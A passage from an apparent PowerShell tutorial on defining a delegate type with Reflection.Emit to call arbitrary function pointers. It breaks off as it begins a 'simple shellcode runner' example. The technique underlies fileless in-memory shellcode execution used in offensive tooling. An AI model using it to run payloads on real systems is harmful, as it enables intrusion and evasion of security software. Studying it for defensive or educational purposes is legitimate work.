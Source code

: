 Then we need to set some implementation flags with the method `SetImplementationFlags`.

```powershell
$MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')
```

To be able to call our function, we need to define the `Invoke` method in our delegate type. For that the method `DefineMethod` allows us to do that.
The method takes four arguments:

- name of the method defined
- method attributes
- return type
- array of argument types

```powershell
$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke',
                                                'Public, HideBySig, NewSlot, Virtual',
                                                [int],
                                                @([IntPtr], [String], [String], [int]))
```

If we put everything in a function:

```powershell
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # Function address
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # array with the argument types
        [Parameter(Position = 2)] [Type] $retType = [Void] # Return type
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
```

### Example with a simple shellcode runner

```powershell
# Create a Delegate function  to be able to call the function that we have the address
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # Function address
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # array with the argument types
        [Parameter(Position = 2)] [Type] $retType = [Void] # Return type
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
```